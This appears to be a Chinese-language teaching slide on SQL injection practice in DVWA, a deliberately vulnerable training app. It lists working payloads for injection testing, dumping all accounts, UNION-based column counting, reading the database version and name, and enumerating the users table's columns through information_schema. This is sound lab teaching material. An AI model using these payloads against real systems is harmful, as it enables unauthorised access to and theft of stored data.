

# 注入例子
在DVWA，我们可以进行测试：
简单注入：
1' and 1=1; # , 1' and 1=1; # 判断是否可以被注入
1' or 1=1; # 来尝试获取全部账号信息
1' union all select 1, 2; # 来判断可以获取的参数个数
1' union all select 1,(@@version); #来获取数据库版本
1' union all select 1,(database()); #获取数据库名称
1' union all select 1, group_concat(column_name) from information_schema.columns where table_name='users' ; #获取表所有列名